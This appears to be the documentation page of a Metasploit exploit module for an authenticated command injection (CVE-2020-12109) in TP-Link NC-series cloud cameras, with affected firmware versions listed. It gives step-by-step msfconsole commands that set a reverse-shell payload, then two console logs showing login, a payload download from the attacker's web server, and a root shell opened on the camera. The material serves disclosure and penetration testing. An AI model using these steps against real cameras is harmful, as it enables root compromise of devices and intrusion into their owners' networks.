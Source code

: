 ## Vulnerable Application

TP-Link cloud cameras NCXXX series (NC200, NC210, NC220, NC230, 
NC250, NC260, NC450) are vulnerable to an authenticated command 
injection. In all devices except NC210, Despite a check on the name 
length in swSystemSetProductAliasCheck, no other checks are in place 
in order to prevent shell metacharacters from being introduced. The 
system name would then be used in swBonjourStartHTTP as part of a 
shell command where arbitrary commands could be injected and 
executed as root. NC210 devices cannot be exploited directly via 
/setsysname.cgi due to proper input validation. NC210 devices are 
still vulnerable since swBonjourStartHTTP did not perform any 
validation when reading the alias name from the configuration file. 
The configuration file can be written, and code execution can be 
achieved by combining this issue with CVE-2020-12110.
This module will therefore support the following TP-Link cameras:

-NC200 <= 2.1.9 build 200225

-NC220 <= 1.3.0 build 200304 

-NC230 <= 1.3.0 build 200304

-NC250 <= 1.3.0 build 200304 

-NC260 <= 1.5.2 build 200304

-NC450 <= 1.5.3 build 200304

## Verification Steps
-Turn your camera on and make sure you can connect to its web interface.

-Take note of the camera model, ip address, web interface port and credentials.

-Once that is done, open msfconsole and execute the following commands:
   
1. `use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection`
2. `set rhost [camera ip]`
3. `set rport [camera web interface port, e.g. 80 or 443]`
4. `set target [ 0 for NC200, NC220, NC230, NC250 | 1 for NC260, NC450]`
5. `set username [web interface username]`
6. `set password [corresponding password]`
7. `set payload [payload of choice, e.g. linux/mipsle/shell/reverse_tcp]` 
8. `set lhost [host ip where our reverse shell is listening]`
9. `set lport [port to listen for incoming shell]`
10. `exploit`

You should get a shell.

## Options
USERNAME => The web interface username

PASSWORD => The web interface password for the specified username

RHOSTS   => The target camera ip address

RPORT    => The target port (TCP)

TIMEOUT  => Timeout for the HTTP Server to wait for the ELF payload request


## Scenarios

Target = 0 (TP-Link NC200, NC220, NC230, NC250)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 80
rport => 80
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 0
target => 0
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[-] Handler failed to bind to 192.168.0.254:5555:-  -
[*] Started reverse TCP handler on 0.0.0.0:5555 
[*] Authenticating with admin:cGFzc3dvcmQ= ...
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > [+] Logged-in as admin
[+] Got cookie: ss8mgz2ohggbmkt
[+] Got token: tw74vc1jd946r0x
[*] Starting web server on 192.168.0.254:8080 ...
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.0.254:8080/
[*] Triggering payload download from http://192.168.0.254:8080
[+] A request just came in...
[*] Sending the payload...
[*] Executing vsqjvhhj
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 1 opened (x.x.x.x:5555 -> x.x.x.x:38152) at xxxx-xx-xx xx:xx:xx -0400
```

Target = 1 (TP-Link NC260, NC450)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 443
rport => 443
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 1
target => 1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > 
[-] Handler failed to bind to 192.168.0.254:5555:-  -
[*] Started reverse TCP handler on 0.0.0.0:5555 
[*] Authenticating with admin:0b8b946432f1ac91f0b07bd5f8df6587 ...
[+] Logged-in as admin
[+] Got cookie: iy6iaj6wugpxi3h
[+] Got token: 6dv47bk91xn57y8
[*] Starting web server on 192.168.0.254:8080 ...
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.0.254:8080/
[*] Triggering payload download from http://192.168.0.254:8080
[+] A request just came in...
[*] Sending the payload...
[*] Executing izosypiw
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 1 opened (x.x.x.x:5555 -> x.x.x.x:38128) at xxxx-xx-xx xx:xx:xx -0400
```

### References

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12109

https://nvd.nist.gov/vuln/detail/CVE-2020-12109

https://seclists.org/fulldisclosure/2020/May/2
